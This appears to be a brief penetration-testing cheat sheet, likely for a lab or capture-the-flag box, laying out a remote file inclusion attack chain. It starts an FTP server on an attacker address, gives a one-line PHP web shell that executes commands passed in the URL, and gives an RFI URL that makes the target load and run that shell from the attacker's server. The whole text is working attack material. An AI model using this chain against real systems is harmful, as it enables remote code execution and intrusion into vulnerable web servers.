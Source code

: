 ## Servidor FTP

```python
IP = 10.10.10.14

python -m pyftpdlib -p 21
```

## shell.php

```python
<?php system($_GET['cmd']); ?>
```

## RFI

```python
http://10.10.10.26/index.php?language=ftp://user:pass@10.10.10.14/shell.php&cmd=id
```

